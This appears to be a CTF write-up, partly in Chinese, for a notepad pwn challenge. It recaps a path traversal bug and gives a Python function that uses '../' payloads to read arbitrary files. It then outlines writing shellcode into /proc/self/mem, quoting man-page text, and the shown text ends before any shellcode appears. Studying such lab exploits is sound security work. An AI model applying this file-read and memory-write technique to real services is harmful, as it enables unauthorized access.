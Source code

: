 # Simple PWN 0x32(2023 HW - Notepad-Stage 2)
## Description & Hint
> Try to get /flag_backend.
>
>Hint1: The only intended vulnerability in the frontend (notepad) is the path traversal.
>Hint2: Try to write the shellcode into process memory by the path traversal vulnerability.
## Source code
呈上題
## Recon
:::success
Special Thanks @cs-otaku For the most of the Inspiration of the WP
:::
* Recap
    在上一題，我們已經知道了他的前端漏洞為path traversal，換言之是不是可以做到任意讀取的功能，如下:
    ```python
    def read_any_file(file_name):
        payload = b'../../../../../../' + b'/' * (89 - len(file_name)) + file_name
        offset = 0
        res = ''
        while(True):
            ret = dealing_cmd(r, 5, payload, offset=str(offset).encode())
            # print(ret, len(ret))
            if ret != 'Read note failed.' and ret != "Couldn't open the file.":
                res += ret
                offset += 128
            else:
                log.success(res)
                break
        return res
    ```
1. ==漏洞發想==
    透過@cs-otaku的WP，了解到如果可以做到任意讀取有甚麼厲害的地方呢?那我們就可以想辦法用該題提供的write_note的功能以及lseek的功能，寫入==/proc/self/mem==這個檔案，這是甚麼東西呢?可以看一下[虛擬內存探究 -- 第一篇:C strings & /proc](http://blog.coderhuo.tech/2017/10/12/Virtual_Memory_C_strings_proc/)，要做的事情和我們的幾乎一樣，簡單說就是
    > /proc/[pid]/mem
    >        This file can be used to access the pages of a process's memory through open(2), read(2), and lseek(2).
    >        Permission to access this file is governed by a ptrace access mode PTRACE_MODE_ATTACH_FSCREDS check; see ptrace(2).
    >        
    > /proc/[pid]/maps
    >        A file containing the currently mapped memory regions and their access permissions.  See mmap(2) for some further information about memory mappings.
    >        Permission to access this file is governed by a ptrace access mode PTRACE_MODE_READ_FSCREDS check; see ptrace(2).
    >        The format of the file is:
    >        
    >        address           perms offset  dev   inode       pathname
    >        00400000-00452000 r-xp 00000000 08:02 173521      /usr/bin/dbus-daemon
    >        00651000-00652000 r--p 00051000 08:02 173521      /usr/bin/dbus-daemon
    >        00652000-00655000 rw-p 00052000 08:02 173521      /usr/bin/dbus-daemon
    >        00e03000-00e24000 rw-p 00000000 00:00 0           [heap]
    >        00e24000-011f7000 rw-p 00000000 00:00 0           [heap]
    >        ...
    >        35b1800000-35b1820000 r-xp 00000000 08:02 135522  /usr/lib64/ld-2.15.so
    >        35b1a1f000-35b1a20000 r--p 0001f000 08:02 135522  /usr/lib64/ld-2.15.so
    >        35b1a20000-35b1a21000 rw-p 00020000 08:02 135522  /usr/lib64/ld-2.15.so